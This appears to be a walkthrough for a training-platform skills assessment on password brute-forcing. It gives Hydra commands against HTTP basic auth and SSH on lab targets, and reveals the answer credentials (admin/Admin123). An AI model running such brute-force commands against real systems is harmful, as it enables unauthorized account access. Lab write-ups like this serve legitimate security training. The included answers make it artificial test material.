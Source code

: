 # Skills Assessment Part 1

---

The first part of the skills assessment will require you to brute-force the the target instance. Successfully finding the correct login will provide you with the username you will need to start Skills Assessment Part 2.

You might find the following wordlists helpful in this engagement: [usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) and [passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt)

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 83.136.253.201:45446   

Life Left: 89 minute(s)

Cheat Sheet

+ 0  What is the password for the basic auth login?

```zsh
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt -f 83.136.253.201 http-get / -s 45446 -t 64
```

```zsh
[45446][http-get] host: 83.136.253.201   login: admin   password: Admin123
```

+ 4  After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?

# Skills Assessment Part 2

---

This is the second part of the skills assessment. `YOU NEED TO COMPLETE THE FIRST PART BEFORE STARTING THIS`. Use the username you were given when you completed part 1 of the skills assessment to brute force the login on the target instance.

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): Click here to spawn the target system!  

Cheat Sheet

+ 0  What is the username of the ftp user you find via brute-forcing?

```zsh
hydra -l satwossh -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt ssh://94.237.51.163 -s 37572 -t 5 -I
```
